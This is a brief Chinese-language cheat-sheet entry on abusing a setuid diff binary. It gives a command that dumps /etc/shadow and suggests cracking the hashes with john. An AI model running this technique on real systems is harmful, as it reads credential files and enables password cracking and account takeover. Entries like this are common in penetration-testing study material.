 # diff

`diff` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./diff --line-format=%L /dev/null /etc/shadow
```

![https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/cut-1.png](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/diff-1.png)

然后使用`john` 对 hash 进行破解.
